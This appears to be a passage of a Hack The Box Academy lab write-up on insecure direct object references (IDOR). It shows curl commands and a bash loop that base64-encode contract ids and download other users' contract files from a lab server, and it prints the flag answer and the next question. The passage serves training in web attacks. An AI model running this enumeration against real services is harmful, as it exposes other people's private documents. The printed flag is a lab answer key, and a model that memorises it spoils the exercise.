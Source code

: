 ```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-hdrk5sgqcr]─[~]
└──╼ [★]$ url="http://94.237.49.226:57795/download.php"; id=$(echo -n 1 | base64 -w 0); curl -s -I "$url?contract=$id" | grep -oP "contract_.*?\.pdf"

contract_c4ca4238a0b923820dcc509a6f75849b.pdf

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-hdrk5sgqcr]─[~]
└──╼ [★]$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b  -
```

```shell
#!/bin/bash

url="http://94.237.49.226:59295/download.php"

for i in {1..20}; do
	    encoded_id=$(echo -n $i | base64 -w 0)
	    curl "$url?contract=$encoded_id"
done
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-hdrk5sgqcr]─[~]
└──╼ [★]$ ./bypass_encoded_references.sh

HTB{h45h1n6_1d5_w0n7_570p_m3}
```

**Answer**

```
HTB{h45h1n6_1d5_w0n7_570p_m3}
```

## Insecure Direct Object References (IDOR) - IDOR in Insecure APIs

### Questions

#### Question #05

**Question**

Try to read the details of the user with `uid=5`. What is their `uuid` value?

![Firefox - Edit Profile Page](./assets/screenshots/web_attacks_idor_insecure_apis_firefox_edit_profile_page.png)